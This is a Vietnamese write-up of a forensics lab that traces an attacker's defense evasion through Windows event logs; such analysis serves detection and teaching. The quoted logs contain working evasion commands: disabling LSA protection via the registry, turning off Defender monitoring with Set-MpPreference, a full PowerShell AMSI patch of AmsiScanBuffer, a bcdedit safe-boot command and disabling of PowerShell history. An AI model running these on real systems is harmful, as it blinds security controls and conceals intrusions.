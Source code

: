 # Mô tả

Byte Doctor Reyes is investigating a stealthy post-breach attack where several expected security logs and Windows Defender alerts appear to be missing. He suspects the attacker employed defense evasion techniques to disable or manipulate security controls, significantly complicating detection efforts.

Using the exported event logs, your objective is to uncover how the attacker compromised the system's defenses to remain undetected.

# Phân tích

## Q1

**The attacker disabled LSA protection on the compromised host by modifying a registry key. What is the full path of that registry key?**

Lên mạng tìm [LSA protection registry key](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection) 

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa`

Trong các file log có sysmon log, filter event ID 12,13,14 để xem đã chỉnh những gì

```
The description for Event ID 13 from source Microsoft-Windows-Sysmon cannot be found. Either the component that raises this event is not installed on your local computer or the installation is corrupted. You can install or repair the component on the local computer.

If the event originated on another computer, the display information had to be saved with the event.

The following information was included with the event: 

T1101
SetValue
2025-04-10 06:29:16.718
EV_RenderedValue_3,00
9540
C:\WINDOWS\system32\reg.exe
HKLM\System\CurrentControlSet\Control\Lsa\RunAsPPL
DWORD (0x00000000)
DESKTOP-M3AKJSD\User

The message resource is present but the message was not found in the message table
```

Đây là hành vi tắt LSA protection bằng cách set giá trị của `RunAsPPL`= 0

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa`

## Q2

**Which PowerShell cmdlet controls Windows Defender?**

Google thì biết được các lệnh điều khiển Windows Defender phổ biến

```
Add-MpPreference: Modifies Windows Defender settings, allowing you to add exclusions, define default actions for threats, and more. 
Set-MpPreference: Configures Windows Defender scan and update preferences. 
Get-MpPreference: Retrieves the current configuration and settings for Windows Defender. 
Get-MpComputerStatus: Gets the current status of Windows Defender, including whether it's running, the last scan, and other relevant information. 
Start-MpScan: Starts a scan of the computer using Windows Defender. 
```

Trong windows powershell operational log filter 4104 rồi kiểm tra các lệnh powershell đã được chạy

```
Creating Scriptblock text (1 of 1):
Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -DisableIntrusionPreventionSystem $true

ScriptBlock ID: 931bac4b-90da-4221-bbaf-0526c190f4c5
Path: 
```

Vào 1:37:05 hacker đã tắt tính năng scan của Defender

`Set-MpPreference`

## Q3

**The attacker loaded an AMSI patch written in PowerShell. Which function in the amsi.dll is being patched by the script to effectively disable AMSI? Hint: The script in question imports `kernel32.dll`**

```powershell
Creating Scriptblock text (1 of 1):
function Disable-Protection {
    $k = @"
using System;
using System.Runtime.InteropServices;
public class P {
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);
    [DllImport("kernel32.dll")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    public static bool Patch() {
        IntPtr h = GetModuleHandle("a" + "m" + "s" + "i" + ".dll");
        if (h == IntPtr.Zero) return false;
        IntPtr a = GetProcAddress(h, "A" + "m" + "s" + "i" + "S" + "c" + "a" + "n" + "B" + "u" + "f" + "f" + "e" + "r");
        if (a == IntPtr.Zero) return false;
        UInt32 oldProtect;
        if (!VirtualProtect(a, (UIntPtr)5, 0x40, out oldProtect)) return false;
        byte[] patch = { 0x31, 0xC0, 0xC3 };
        Marshal.Copy(patch, 0, a, patch.Length);
        return VirtualProtect(a, (UIntPtr)5, oldProtect, out oldProtect);
    }
}
"@
    Add-Type -TypeDefinition $k
    $result = [P]::Patch()
    if ($result) {
        Write-Output "Protection Disabled"
    } else {
        Write-Output "Failed to Disable Protection"
    }
}

ScriptBlock ID: a40a685c-b1e5-495e-b69a-3542da1e6c22
Path: 
```

Vào 1:37:47 hacker chạy một script khác để tắt AMSI(Anti malware scan interface) bằng cách truy xuất địa chỉ hàm `AmsiScanBuffer` trong `amsi.dll`. Đây là hàm mà Windows Defender sử dụng để quét nội dung trong bộ nhớ

```powershell
IntPtr h = GetModuleHandle("amsi.dll");
IntPtr a = GetProcAddress(h, "AmsiScanBuffer");
```

Sau đó 

```powershell
byte[] patch = { 0x31, 0xC0, 0xC3 }; // xor eax, eax; ret
Marshal.Copy(patch, 0, a, patch.Length);
```

`0x31, 0xC0` Đặt kết quả trả về là 0 `AMSIScanResult.CLEAN` rồi sau đó `0xC3` để kết thúc hàm khiến cho các đoạn mã được quét sau khi patch `amsi.dll` đều không gây ra cảnh báo vì tất cả đều clean

`AmsiScanBuffer`

## Q4

**Which command did the attacker use to restart the machine in Safe Mode, (with arguments, without ".exe")?**

Google thì biết được khi muốn restart máy về safe mode thương dùng lệnh `bcdedit /set {current} safeboot minimal` ta có thể tìm kiếm những câu lệnh chứa `bcdedit`, `safeboot` trong log để biết hacker đã làm gì

```
Creating Scriptblock text (1 of 1):
bcdedit /set safeboot network

ScriptBlock ID: 4424e2da-5302-4ba7-9280-a7b70b33e0aa
Path: 
```

Chạy vào 1:38:35

`bcdedit /set safeboot network`

## Q5

**Which PowerShell command did the attacker use to disable PowerShell command history logging?**

```
Creating Scriptblock text (1 of 1):
Set-PSReadlineOption -HistorySaveStyle SaveNothing

ScriptBlock ID: eef9a7e3-fc56-47f7-b44f-2b4e1681d0bc
Path: 
```

Chạy vào 1:38:43

`Set-PSReadlineOption -HistorySaveStyle SaveNothing`